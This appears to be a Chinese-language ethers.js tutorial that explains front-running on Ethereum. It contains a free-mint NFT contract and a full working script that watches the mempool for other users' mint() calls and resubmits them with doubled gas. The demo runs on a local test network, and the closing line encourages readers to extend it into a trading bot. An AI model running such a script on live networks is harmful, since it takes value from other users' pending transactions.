 ```yaml
---
title: 23. 抢先交易脚本
---
```


# Ethers极简入门: 23. 抢先交易脚本

我最近在重新学`ethers.js`，巩固一下细节，也写一个`WTF Ethers极简入门`，供小白们使用。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

WTF Academy 社群：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/WTFAcademy/WTFEthers](https://github.com/WTFAcademy/WTF-Ethers)

---

这一讲，我们将介绍抢先交易（Front-running，抢跑）的脚本。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利12亿美元](https://dune.com/chorus_one/ethereum-mev-data)。在学习之前，请先阅读[WTF Solidity教程 合约安全S11: 抢先交易](https://github.com/AmazingAng/WTFSolidity/blob/main/S11_Frontrun/readme.md)。

![](./img/23-1.png)

## Freemint NFT合约

我们要抢跑的目标合约是一个ERC721标准的NFT合约`Frontrun.sol`，它拥有一个`mint()`函数进行免费铸造。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        totalSupply++;
        _mint(msg.sender, totalSupply); // mint
    }
}
```

为了简化测试环境，我们将上述合约部署在foundry本地测试网，然后监听在`mempool`中的未决交易，筛选出符合标准的交易进行抢跑。

如果你不了解 `foundry`，可以阅读WTF Solidity中的[Foundry教程](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)。安装好 foundry 后，在命令行输入以下命令就可以启动本地测试网:

```shell
anvil
```

## 抢跑脚本

下面，我们详解一下抢跑脚本`frontrun.js`，这个脚本会监听链上的`mint()`交易，并发送一个gas更高的相同交易，进行抢跑。

1. 创建连接到foundry本地测试网的`provider`对象，用于监听和发送交易。foundry本地测试网默认url：`"http://127.0.0.1:8545"`。

    ```js
    //1.连接到foundry本地网络

    import { ethers } from "ethers";
    const provider = new ethers.providers.WebSocketProvider('<http://127.0.0.1:8545>')
    let network = provider.getNetwork()
    network.then(res => console.log(`[${(new Date).toLocaleTimeString()}]链接到网络${res.chainId}`))
    ```
2. 创建合约实例，用于查看mint结果，确认是否抢跑成功。

    ```js
    //2.构建contract实例
    const contractABI = [
        "function mint() public",
        "function ownerOf(uint256) public view returns (address) ",
        "function totalSupply() view returns (uint256)"
    ]

    const contractAddress = '0xC76A71C4492c11bbaDC841342C4Cb470b5d12193'//合约地址
    const contractFM = new ethers.Contract(contractAddress, contractABI, provider)
    ```
3. 创建一个包含我们感兴趣的`mint()`函数的`interface`对象，用于在监听过程中使用。如果你不了解它，可以阅读[WTF Ethers极简教程第20讲：解码交易](https://github.com/WTFAcademy/WTFEthers/blob/main/20_DecodeTx/readme.md)。

    ```js
    //3.创建Interface对象，用于检索mint函数。
    const iface = new ethers.utils.Interface(contractABI)
    function getSignature(fn) {
        return iface.getSighash(fn)
    }
    ```

4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供的，里面有10000 ETH测试币。

    ```js
    //4. 创建测试钱包，用于发送抢跑交易，私钥是foundry测试网提供
    const privateKey = '0xac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80'
    const wallet = new ethers.Wallet(privateKey, provider)
    ```

5. 我们先看一下正常的mint结果是怎样的。我们利用`provider.on`方法监听mempool中的未决交易，当交易出现时，我们会利用交易哈希`txHash`来读取交易详情`tx`，并筛选出调用了`mint()`函数的交易，查看交易结果，获取mint的nft编码及对应的owner，比对交易发起地址与owner是否一致。确认，mint按预期执行。

    ```js
    //5. 构建正常mint函数，检验mint结果，显示正常。
    const normaltx = async () => {
    provider.on('pending', async (txHash) => {
        provider.getTransaction(txHash).then(
            async (tx) => {
                if (tx.data.indexOf(getSignature("mint") !== -1)) {
                    console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}`)
                    console.log(`铸造发起的地址是:${tx.from}`)//打印交易发起地址
                    await tx.wait()
                    const tokenId = await contractFM.totalSupply()
                    console.log(`mint的NFT编号:${tokenId}`)
                    console.log(`编号${tokenId}NFT的持有者是${await contractFM.ownerOf(tokenId)}`)//打印nft持有者地址
                    console.log(`铸造发起的地址是不是对应NFT的持有者:${tx.from === await contractFM.ownerOf(tokenId)}`)//比较二者是否一致
                }
            }
        )
    })
    }
    ```

    ![](./img/23-2.png)

6. 进行抢跑mint。我们依旧利用`provider.on`方法监听mempool中的未决交易，当有调用了mint()函数的交易出现且发送方不是自己钱包地址的交易（如果不筛选，会自己抢跑自己的交易，陷入死循环）时，构建抢跑交易，发送交易进行抢跑。等待交易结束后，查看抢跑结果。预期将要被mint的nft并未被原交易发起地址mint，而是由抢跑地址mint。同时查看区块内数据，抢跑交易在原始交易前被打包进区块，抢跑成功！

    ```js
    const frontRun = async () => {
    provider.on('pending', async (txHash) => {
        const tx = await provider.getTransaction(txHash)
        if (tx.data.indexOf(getSignature("mint")) !== -1 && tx.from !== wallet.address) {
            console.log(`[${(new Date).toLocaleTimeString()}]监听到交易:${txHash}\n准备抢先交易`)
            const frontRunTx = {
                to: tx.to,
                value: tx.value,
                maxPriorityFeePerGas: tx.maxPriorityFeePerGas.mul(2),
                maxFeePerGas: tx.maxFeePerGas.mul(2),
                gasLimit: tx.gasLimit.mul(2),
                data: tx.data
            }
            const aimTokenId = (await contractFM.totalSupply()).add(1)
            console.log(`即将被mint的NFT编号是:${aimTokenId}`)//打印应该被mint的nft编号
            const sentFR = await wallet.sendTransaction(frontRunTx)
            console.log(`正在frontrun交易`)
            const receipt = await sentFR.wait()
            console.log(`frontrun 交易成功,交易hash是:${receipt.transactionHash}`)
            console.log(`铸造发起的地址是:${tx.from}`)
            console.log(`编号${aimTokenId}NFT的持有者是${await contractFM.ownerOf(aimTokenId)}`)//刚刚mint的nft持有者并不是tx.from
            console.log(`编号${aimTokenId.add(1)}的NFT的持有者是:${await contractFM.ownerOf(aimTokenId.add(1))}`)//tx.from被wallet.address抢跑，mint了下一个nft
            console.log(`铸造发起的地址是不是对应NFT的持有者:${tx.from === await contractFM.ownerOf(aimTokenId)}`)//比对地址，tx.from被抢跑
            //检验区块内数据结果
            const block = await provider.getBlock(tx.blockNumber)
            console.log(`区块内交易数据明细:${block.transactions}`)//在区块内，后发交易排在先发交易前，抢跑成功。
        }
    })
    }
    ```

    ![](./img/23-3.png)

## 总结

这一讲，我们介绍了一个简单的抢先交易脚本。你可以在这个脚本的基础上加入你想要的功能，开启币圈科学家之路！
